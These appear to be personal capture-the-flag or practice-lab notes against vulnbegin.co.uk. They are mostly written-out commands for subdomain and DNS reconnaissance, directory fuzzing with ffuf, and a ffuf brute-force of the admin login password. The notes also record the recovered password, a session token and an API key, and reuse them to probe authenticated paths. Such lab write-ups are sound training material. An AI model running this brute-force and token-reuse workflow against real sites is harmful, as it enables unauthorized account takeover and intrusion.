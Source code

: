 admin
159753

Domain: http://vulnbegin.co.uk/

```bash
nslookup -type=any vulnbegin.co.uk 8.8.8.8

dnsrecon -d ctvqeeay.vulnbegin.co.uk -D /usr/share/wordlists/dirb/common.txt -t brt

curl server.ctvqeeay.vulnbegin.co.uk -H "Cookie: $cookie"
```
theHarvester
```bash
theHarvester -d ctvqeeay.vulnbegin.co.uk -b all
```
ffuf
```bash
ffuf -u http://www.vulnbegin.co.uk/FUZZ -w /usr/share/wordlists/dirb/common.txt -H "Cookie: $cookie" -t 2 -p 0.1
```
burp username bruteforce
username: admin
fuff password bruteforce
```bash
ffuf -X POST -u http://ctvqeeay.vulnbegin.co.uk/cpadmin/login -d "username=admin&password=PFUZZ" -w /usr/share/wordlists/seclists/Passwords/Common-Credentials/10k-most-common.txt:PFUZZ -H "Cookie: $cookie" -H "Content-type: application/x-www-form-urlencoded" -t 4 -p 0.1 -fs 200
```
password: 159753
token=2eff535bd75e77b62c70ba1e4dcb2873

ffuf cpadmin [with cookie admin token]
```bash
ffuf -u http://ctvqeeay.vulnbegin.co.uk/cpadmin/FUZZ -w /usr/share/wordlists/dirb/common.txt -H "Cookie: $cookie; token=2eff535bd75e77b62c70ba1e4dcb2873"
```

|api_key|"X-Token: 492E64385D3779BC5F040E2B19D67742"|

ffuf doamin with X-Token
```bash
ffuf -u http://server.6h0qk1c9.vulnbegin.co.uk/FUZZ -w /usr/share/wordlists/dirb/common.txt -H "Cookie: $cookie" -H "X-Token: 492E64385D3779BC5F040E2B19D67742" -t 2 -p 0.1
```
